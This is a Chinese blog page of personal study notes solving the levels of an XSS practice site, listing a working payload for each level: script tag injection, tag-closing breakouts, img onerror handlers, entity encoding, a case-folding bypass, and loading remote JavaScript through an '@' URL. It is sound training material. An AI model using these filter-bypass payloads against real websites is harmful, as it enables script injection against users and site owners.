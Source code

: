 ```yaml
---
layout: default
title: ssh_notes
categories:
- C++
tags:
- C++
---
```

//Description: 通过xss攻击学习xss的一点笔记

//Create Date: 2020-02-20 00:09:20

//Author: channy

# ssh_notes

[练习页面](https://xss.haozi.me/)

前言：做了两题终于弄明白，目标是要使页面显示"alert(1)"

0. 直接输入"alert(1)"?

```xss
<script>alert(1)</script>
```

1. 类似于xml,匹配去掉前面的<textarea>

```xss
</textarea><script>alert(1)</script>
```

3. 括号闭合去掉前面的input

```xss
"><script>alert(1)</script>
```

4. html: #40; -> ( ; #41 -> ) .

```xss
<img src="" onerror="alert&#40;1&#41;"/>
```

5. 

```xss
--!><img src="" onerror="alert&#40;1&#41;"/>
```

6. 一定要image吗？前面的script怎么改？换行可以

```xss
type="image" src="" onerror
="alert(1)"
```

7. 要与stripTagsRe匹配上才replace,所以不加右括号

```xss
<img src="" onerror="alert(1)"
```

8. 貌似基本思想就是尽力去掉前面的tag，后面就可以加自己的了

```xss
</style
><img src="x" onerror="alert(1);">
```

9. 输入需要包括domainRe的网址

```xss
https://www.segmentfault.com<img src="" onerror="alert(1)"
```

A. 一个知识点，就是@，如果你访问 www.baidu.com@www.google.com，那么你最后进入的是谷歌的界面。

这一关，就在自己的服务器上放一个js文件，写上“alert（1）”。

穷，没自己的服务器，测试不了了 

```xss
https://www.segmentfault.com@xss.haozi.me/j.js
```

B. HTML对大小写是不敏感的，但是JavaScript对大小写敏感

```xss
<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">
```

C. 同上

D. 注释只能注释掉一行

```xss

alert(1)
-->
```

E. 前面加了“<_”并转换成了大写

但是ſ大写后为S,且其ascii值不与s相等,因此可以绕过

```xss
<ſcript src="https://xss.haozi.me/j.js"></script>
```

F. 

```xss
');alert(1)//
```

10. --

```xss
alert(1)
```

11. 转义的转义

```xss
");alert(1)//
```

12. 

```xss
\");alert(1)//
```
[back](/)


